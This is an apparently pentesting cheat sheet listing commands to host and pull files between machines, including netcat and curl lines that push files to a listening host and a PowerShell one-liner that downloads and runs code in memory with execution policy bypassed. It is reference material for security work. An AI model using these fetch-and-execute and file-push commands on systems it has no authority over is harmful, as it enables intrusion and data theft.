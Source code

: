 # General - File Transfer

### Server side

The following tools can be used to host files server side.

###### Python - Web Server

```python
python -m SimpleHTTPServer <PORT>
```

###### curl

```bash
# Needs the receiver to be listening
curl -F 'data=@<FILE>' http://<IP>:<PORT>
```

###### nc

```bash
# Needs the receiver to be listening
nc -w 3 <IP> <PORT> < <FILE>
Get-Content <FILE> | ./nc.exe -w 3 <IP> <PORT>
```

###### impacket-smbserver - SMB share

```bash
impacket-smbserver <SHARE_NAME> <SHARE_PATH>
impacket-smbserver <SHARE_NAME> `pwd`
```

###### FTP

```
# pip install pyftpdlib
python -m pyftpdlib -w -p <PORT>
```

###### TFTP

```
# Metasploit server module
use auxiliary/server/tftp

# Unix daemon
mkdir <TFTPFOLDER>
atftpd --daemon --port <PORT> <TFTPFOLDER>
```

### Client side

The following tools can be used to download file from a server client side.  

File transfer is easier on Linux machines as wget, curl or netcat are often packaged
with the operating system distribution.  

On Windows machines, the process is usually not as straight forward.

###### wget

```bash
wget http:/<IP>:<PORT>/<FILE>
wget -O file http://<IP>:<PORT>t/<FILE>
wget -r --no-parent -nH --reject "index.html*" http://<IP>:<PORT>/<DIR>
```

###### curl

```bash
curl http://<IP>:<PORT>/<FILE> > out.file
curl -O http://<IP>:<PORT>/<FILE>
```

###### netcat

```bash
nc -l -p <PORT> > out.file
nc -l -p <PORT> | tee out.file
```

###### Python

```python
python -c "from urllib import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', '<OUT.FILE>')"
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', 'out.file')"
```

###### Powershell

```powershell
Invoke-WebRequest -Uri <URL> -OutFile <FILE>
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>', '<FULLPATH\FILENAME>');

# Load in memory and execute
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>'); Invoke-ImportedCMD"
echo IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | powershell -nop -exec bypass -

# Connect to a SMB share
New-PSDrive -Name "LocalMountedFolder" -PSProvider "FileSystem" -Root "\\<IP>\<SHARE>"; cd LocalMountedFolder:
```

###### FTP

```
ftp -A <SERVERIP>
```

###### TFTP

TFTP is a simple protocol for transferring files, implemented on top of the UDP/IP
protocols. TFTP was designed to be small and easy to implement, and therefore it
lacks most of the advanced features offered by more robust file transfer protocols.
TFTP only reads and writes files from or to a remote server. It cannot list, delete,
or rename files or directories and it has no provisions for user authentication.  

Windows operating systems up to Windows XP and 2003 contain a TFTP
client, by default. In Windows 7, 2008, and above, this tool needs to be explicitly added,
during installation.

```
tftp -i <SERVERIP> GET <FILENAME>
```
